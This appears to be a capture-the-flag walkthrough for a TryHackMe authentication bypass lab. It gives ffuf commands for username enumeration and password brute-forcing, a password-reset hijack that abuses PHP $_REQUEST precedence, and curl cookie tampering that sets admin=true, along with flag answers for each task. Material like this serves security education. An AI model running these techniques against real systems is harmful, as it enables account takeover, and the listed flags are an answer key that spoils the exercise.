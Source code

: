 # Solution

## URL:
- [Authentication Bypass](https://tryhackme.com/room/authenticationbypass)

## Steps

### Task 2:
#### What is the username starting with si*** ?
1. Run the command `fuf -u http://10.10.88.97/customers/signup -X POST -d "username=FUZZ&email=test%40test.com&password=password&cpassword=password" -H "Content-Type: application/x-www-form-urlencoded" -mr "username already exists" -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt | tee valid_usernames.txt`.
2. Answer is in the ouput of the above command: `simon`.

#### What is the username starting with st*** ?
1. Answer is in the ouput of the above command: `steve`.

#### What is the username starting with ro**** ?
1. Answer is in the ouput of the above command: `robert`.


### Task 3:
#### What is the valid username and password (format: username/password)?
1. Run the command: `ffuf -w valid_usernames.txt:USERFUZZ,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:PASSFUZZ -X POST -d "username=USERFUZZ&password=PASSFUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.88.97/customers/login -fc 200`.
2. You will get the answer: `steve/thunder`.

### Task 4:
#### What is the flag from Robert's support ticket?
1. Go to password reset page `/customers/reset`.
2. Type the email `robert@acmeitsupport.thm`.
3. In the next page type the username `robert`.
4. Open network tab in dev tools and send the request.
5. Copy the request as cURL.
6. In the application logic they are using `$_REQUEST` to send the password reset email. `$_REQUEST` is an array that contains data received from the query string and `POST` data and in the application logic it is favoring `POST` data over query string.
7. So if we send the email field in `POST` data as well, we will receive the password reset link.
8. Create an account in the application which will give you a custom email id.
9. Set this email id in the `POST` data of the reset password request with the key `email` and send it.
10. You will receive the email in `Support Tickets` section of your account.
11. Open the link in that email, and check the support ticket in `robert`'s account for the flag: `THM{AUTH_BYPASS_COMPLETE}`.

### Task 6:
#### What is the flag from changing the plain text cookie values?
1. Use the command `curl -H "Cookie: logged_in=true; admin=true" http://10.10.19.215/cookie-test`.
2. Got flag: `THM{COOKIE_TAMPERING}`.

#### What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?
1. Use [crackstation](https://crackstation.net/).
2. Got answer: `463729`.

#### What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?
1. Use command `echo "VEhNe0JBU0U2NF9FTkNPRElOR30=" | base64 -d`.
2. Got flag: `THM{BASE64_ENCODING}`.

#### Encode the following value using base64 {"id":1,"admin":true}
1. Use command `echo '{"id":1,"admin":true}' | base64`.
2. Got flag: `eyJpZCI6MSwiYWRtaW4iOnRydWV9Cg==`.